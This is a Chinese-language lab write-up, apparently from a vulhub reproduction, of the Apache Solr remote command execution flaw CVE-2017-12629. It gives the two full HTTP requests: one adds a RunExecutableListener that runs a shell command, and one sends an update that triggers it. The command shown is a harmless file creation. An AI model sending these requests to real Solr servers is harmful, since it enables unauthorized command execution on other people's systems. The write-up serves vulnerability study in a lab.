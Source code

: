 # Apache Solr 远程命令执行漏洞（CVE-2017-12629）

###### by ADummy

### 0x00利用路线

​			Burpsuite发送两个包，一个listener，一个update--->命令执行

### 0x01漏洞介绍			

​			Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：[XML实体扩展漏洞（XXE）](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-XXE)和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

##### 影响版本

```
Apache Solr < 7.1.0
```

### 0x02漏洞复现

访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

![Apache_Solr_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Apache_Solr_RCE_1.jpg)

首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：

```
POST /solr/demo/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}
```

![Apache_Solr_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Apache_Solr_RCE_2.jpg)

然后进行update操作，触发刚才添加的listener：

```
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

![Apache_Solr_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Apache_Solr_RCE_3.jpg)

进入容器，查看success已经创建

![Apache_Solr_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Apache_Solr_RCE_4.jpg)

